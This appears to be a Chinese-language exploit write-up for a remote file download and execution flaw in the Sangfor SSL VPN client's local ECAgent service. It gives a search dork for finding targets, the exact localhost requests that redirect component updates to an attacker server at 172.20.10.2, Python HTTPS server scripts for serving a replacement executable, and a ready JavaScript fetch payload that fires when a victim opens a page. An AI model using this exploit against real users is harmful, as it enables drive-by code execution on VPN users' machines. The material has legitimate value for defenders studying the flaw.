









# 深信服 SSL VPN 客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

参考阅读：

- https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg

## 漏洞影响

```
深信服 SSL VPN
```

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：





安装完之后访问VPN的页面，发现VPN会自动下载组件更新：





这些请求均为GET请求并附带着一些参数，我们把它一一列下来：





本地来看一下这个`54530`端口对应的进程是什么：




发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：





确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。


通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。


再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：


```plain
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```


第一个初始化的请求存在可控参数arg1：


```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```


参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：


```plain
python -m SimpleHTTPServer
```


其他的请求原封不动，依次请求一遍那一份URL


服务端成功收到请求，但是却出现了错误的提示：




首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。


现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。


如下脚本基于Python库建立一个 HTTPS 服务：


```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```


搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：





可以看见客户端会访问两个文件：


```plain
/com/WindowsModule.xml
/com/win/XXXUD.exe
```


先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：


```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```


最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。


最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。


依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：


```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```


会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：





Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：


```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```


其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。





